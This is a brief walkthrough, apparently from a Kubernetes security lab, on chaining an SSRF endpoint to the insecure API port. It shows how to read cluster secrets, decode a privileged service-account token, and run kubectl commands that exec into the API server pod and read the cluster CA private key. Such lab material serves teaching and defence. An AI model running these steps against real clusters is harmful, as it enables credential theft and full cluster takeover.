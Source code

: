 # SSRF to Insecure Port

The application provides the facility to do GET and POST requests, so there's a couple of different ways to approach this.

One option would be

1. Get a list of secrets using the GET SSRF endpoint
  - http://127.0.0.1:8080/api/v1/secrets
2. Get a secret that has privileges on the API server (e.g. clusterrole-aggregation-controller-token)
3. Find the token: field and make a copy of it
4. Base64 decode the token (one way to do that https://gchq.github.io/CyberChef)
5. use the token to make requests to the exposed API server 
   1. `kubectl --insecure-skip-tls-verify --token=[TOKEN] -shttps://[CLUSTERIP]:6443 get po -n kube-system`
   2. `kubectl --insecure-skip-tls-verify --token=[TOKEN] -shttps://[CLUSTERIP]:6443 -n kube-system exec [APISERVERPOD] cat /etc/kubernetes/pki/ca.key`